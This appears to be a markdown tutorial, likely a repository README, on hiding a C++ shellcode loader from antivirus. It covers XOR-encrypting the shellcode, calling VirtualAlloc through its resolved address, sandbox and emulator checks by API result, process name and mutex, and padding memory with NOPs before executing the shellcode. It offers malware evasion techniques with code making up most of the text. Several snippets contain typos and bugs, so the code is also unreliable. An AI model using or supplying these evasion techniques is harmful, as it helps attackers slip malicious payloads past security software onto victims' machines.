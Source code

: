 # Countering antivirus roadmap

Below I will outline several ways to write a shellcode loader in memory and how to hide it from antivirus on C++.

1. [Shellcode encryption](#1)
2. [Using functions via address](#2)
3. [Result processing Windows API](#3)
4. [Сhecking the process name](#4)
5. [Сhecking mutex before launching](#5)
6. [Allocating a large amount of memory for shellcode](#6)

## <a name="1">Shellcode encryption </a>
The simplest and most important way to hide the load is shellcode encryption , this will help bypass static analysis of your file.
You can use both simple xor and more complex encryption methods such as rc4 , etc .

for example:

```
  const char key[]="somekey";
  const char shellcode[]="some shellcode";
  
  char coded[sizeof(shellcode)];
  
  for (int i=0,j=0; i<sizeof(shellcode); i++,j++){
    if (!(j<sizeof(key))) {
    j=0;
    }
    coded[i] = shellcode[i] ^ key[j];
  }
```

## <a name="2">Using functions via address</a>

You can use instead of a direct function call , a call through the address of this function in memory

for example:
```
  typedef LPVOID(__cdecl *MPROC)(LPVOID,SIZE_T,DWORD,DWORD;
  
  MPROC Alloc = (MPROC)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")),"VirtualAlloc");
  char *ex = (char*)Alloc(NULL,sizeof(shellcode),MEM_COMMIT,PAGE_EXECUTE-READWRITE);
```

## <a name="3">Result processing Windows API</a>

The antivirus emulator may not handle all Windows API functions and returns by default Null

for example:
```
  LPVOID res = NULL;
  res = VirtualAllocExNuma(GetCurrentProcess(), NULL, 100, MEM_REVERSE | MEM_COMMIT, PAGE_EXECUTE_READWRITE, 0);
  
  if (res != NULL )
  {
    //exec shellcode
  }
  return 0;
```
## <a name="4">Сhecking the process name</a>

Antivirus during the binary file check can run it not with the original name, to bypass dynamic checking, you can check the name of the file being run.

for example:
```
 int main ( int argc, char* argv[])
 {
  if (argv[0] == "my_name.exe")
  {
    //exec shellcode
  } 
  return 0;
 } 
```

## <a name="5">Сhecking mutex before launching</a>

You can start the program execution process only if a certain mutex is found in the system. If you try to create an existing mutex, the process throws an error.

for example:
```
 HANDLE mutex;
 mutex = CreateMutex( NULL, TRUE, "MY_MUTEX");
 
 if ( GetLastError() == ERROR_ALREADY_EXIST );
 {
  // exec shellcode
 }
 esle 
 {
  startExe("my_proc.exe");
  Sleep(1000);
 }
 return 0;
```

## <a name="6">Allocating a large amount of memory for shellcode</a>

With dynamic program analysis, antiviruses analyze the allocated memory, but they can analyze a certain amount of memory. you can allocate more memory than is necessary to write the silk code and write the first part, which will be analyzed by antivir with empty bytes.

for example:
```
 char *ex = VirtualAlloc(NULL, sizeof(shellcode)*2, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
 char *ex2 = ex + sizeof(shellcode);
 memcpy(ex2, shellcode, sizeof(shellcode));
 
 for( int i=0; i<=sizeof(shellcode)-1; i++)
 {
  ex[i] = 0x90;
 }
 
 ((void(*)())ex)();
```
